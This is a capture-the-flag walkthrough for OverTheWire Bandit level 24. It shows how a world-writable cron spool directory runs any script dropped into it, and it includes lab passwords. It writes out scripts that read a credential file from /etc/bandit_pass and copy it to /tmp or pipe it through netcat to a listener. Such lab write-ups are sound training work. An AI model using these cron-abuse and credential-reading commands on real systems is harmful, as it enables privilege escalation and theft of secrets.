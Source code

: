 # Level 24

## Objectives

1. SSH to `bandit23`
2. Find out what the cronjob is doing

### Objective 1

* Username: `bandit23`
* Password: `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`
* Port: `2220`  
* IP/Hostname: `bandit.labs.overthewire.org`

```sh
user@localhost:~$ ssh -p 2220 bandit23@bandit.labs.overthewire.org
```

> Success!

### Objective 2

Since we saw from a couple levels ago what other scripts were running under `/etc/cron.d`, we know that `/usr/bin/cronjob_bandit24.sh` is our next target.

```sh
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

This seems like it's going to execute anything in the `/var/spool/bandit24` as long as it was not `.` or `..`, to avoid relative directory structure. 

Let's check to see if we can write to this directory.

```sh
bandit23@bandit:~$ stat /var/spool/bandit24/
  File: /var/spool/bandit24/
  Size: 1359872   	Blocks: 2664       IO Block: 4096   directory
Device: fb01h/64257d	Inode: 920097      Links: 29
Access: (0773/drwxrwx-wx)  Uid: (    0/    root)   Gid: (11024/bandit24)
Access: 2020-03-23 20:10:01.733275317 +0100
Modify: 2020-03-23 20:09:01.729319714 +0100
Change: 2020-03-23 20:09:01.729319714 +0100
 Birth: -
```

Since we can, we need to create a bash script to give us the password.

We also need to find a directory that both of us can read and write to.

`/tmp` looks like a good enough place. 

```sh
bandit23@bandit:~$ stat /tmp
  File: /tmp
  Size: 313204736 	Blocks: 611840     IO Block: 4096   directory
Device: fb03h/64259d	Inode: 2           Links: 1
Access: (3773/drwxrws-wt)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2020-03-22 20:50:51.715668098 +0100
Modify: 2020-03-23 20:37:20.932083465 +0100
Change: 2020-03-23 20:37:20.932083465 +0100
 Birth: -
```

The script is simply this:

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit_pass.txt
```

Use a text editor like `vim` or `nano` and paste that into it.

You'll then need to `chmod 777` to assure that `bandit24` will be able to execute it.

```
bandit23@bandit:~$ vim -i NONE /var/spool/bandit24/pw.sh
bandit23@bandit:~$ chmod 777 /var/spool/bandit24/pw.sh
```

Now wait a little bit and then you'll need to read from the file you just created.

```sh
bandit23@bandit:~$ cat /tmp/bandit_pass.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```


Alternative script:

You could also use `netcat` to send the password to yourself.

Create the `/var/spool/bandit24/pw.sh` script.

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 | netcat localhost 9001
```

```sh
bandit23@bandit:~$ chmod 777 /var/spool/bandit24/pw.sh
bandit23@bandit:~$ netcat -nvlp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 52118
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```